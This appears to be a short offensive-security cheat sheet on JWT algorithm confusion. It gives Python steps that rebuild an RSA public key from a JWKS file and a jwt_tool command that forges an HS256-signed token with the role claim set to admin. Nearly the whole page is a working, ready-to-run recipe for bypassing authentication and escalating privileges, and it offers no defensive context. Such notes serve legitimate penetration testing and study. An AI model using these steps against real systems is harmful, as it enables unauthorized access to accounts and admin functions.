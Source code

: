 ```yaml
---
title: "JWT"
date: 2024-8-1
tags: ["jwt", "jwks", "forge", "cookies"]
---
```


### Abuse #1: Algorithm confusion

#### 0. Sample jwks.json

<div>

```console
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

</div>

#### 1. Create a public key

<div>

```console
python3
```

```console
from base64 import urlsafe_b64decode
```

```console
from Crypto.PublicKey import RSA
```

```console
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```console
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_N>'))
```

```console
key = RSA.construct((n, e))
```

```console
# Save it to public.pem
print(key.exportKey().decode())
```

</div>

#### 2. Forge a jwt

<div>

```console
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

</div>

<small>*Ref: [jwt_tool](https://github.com/ticarpi/jwt_tool)*</small>

<br>